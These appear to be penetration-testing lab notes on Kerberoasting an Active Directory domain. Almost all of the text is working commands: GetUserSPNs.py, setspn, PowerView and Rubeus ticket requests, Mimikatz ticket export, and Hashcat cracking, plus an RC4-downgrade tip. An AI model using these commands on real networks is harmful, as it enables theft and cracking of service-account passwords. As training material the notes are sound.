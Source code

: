 # Kerberoasting - Performing the Attack

Depending on your position in a network, this attack can be performed in multiple ways:

    - From a non-domain joined Linux host using valid domain user credentials.
    - From a domain-joined Linux host as root after retrieving the keytab file.
    - From a domain-joined Windows host authenticated as a domain user.
    - From a domain-joined Windows host with a shell in the context of a domain account.
    - As SYSTEM on a domain-joined Windows host.
    - From a non-domain joined Windows host using runas /netonly.


# From Linux

## GetUserSPNs.py

### Listing SPN Accounts with GetUserSPNs.py
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

### Requesting all TGS Tickets
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```

### Requesting a Single TGS ticket
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

# From Windows

## Semi manual way.

### Enumerating SPNs with setspn.exe

```powershell
setspn.exe -Q */*
```

### Targeting a Single User
Next, using PowerShell, we can request TGS tickets for an account in the shell above and load them into memory. Once they are loaded into memory, we can extract them using Mimikatz. Let's try this by targeting a single user

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

### Retrieving All Tickets Using setspn.exe

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

### Extracting Tickets from Memory with Mimikatz

```powershell
.\mimikatz

mimikatz: base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz: kerberos::list /export 

```

### Preparing the Base64 Blob for Cracking

Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

```bash
echo "<base64 blob>" |  tr -d \\n | tee encoded_file
```

### Placing the Output into a File as .kirbi

```bash
cat encoded_file | base64 -d > sqldev.kirbi
```

### Extracting the Kerberos Ticket using kirbi2john.py
```bash
kirbi2john sqldev.kirbi | tee crack_file
```

### Modifiying crack_file for Hashcat

**Note**: the newer version of kirbi2john doesn't require that.

```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

### Cracking the Hash with Hashcat
```bash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

## Automated / Tool Based Route

### Using PowerView to Extract TGS Tickets

### Enumerate spn users
```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

### Using PowerView to Target a Specific User

```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\sqldev_tgs.csv -NoTypeInformation
```

### Exporting All Tickets to a CSV File

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

## Using Rubeus

Let's use Rubeus to request tickets for accounts with the admincount attribute set to 1. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. Be sure to specify the /nowrap flag so that the hash can be more easily copied down for offline cracking using Hashcat

```bash
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
We can use Rubeus with the /tgtdeleg flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

```
Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account. This being said, if we find ourselves in a domain with Domain Controllers running on Server 2016 or earlier (which is quite common), enabling AES will not partially mitigate Kerberoasting by only returning AES encrypted tickets, which are much more difficult to crack, but rather will allow an attacker to request an RC4 encrypted service ticket. In Windows Server 2019 DCs, enabling AES encryption on an SPN account will result in us receiving an AES-256 (type 18) service ticket, which is substantially more difficult (but not impossible) to crack, especially if a relatively weak dictionary password is in use. 
```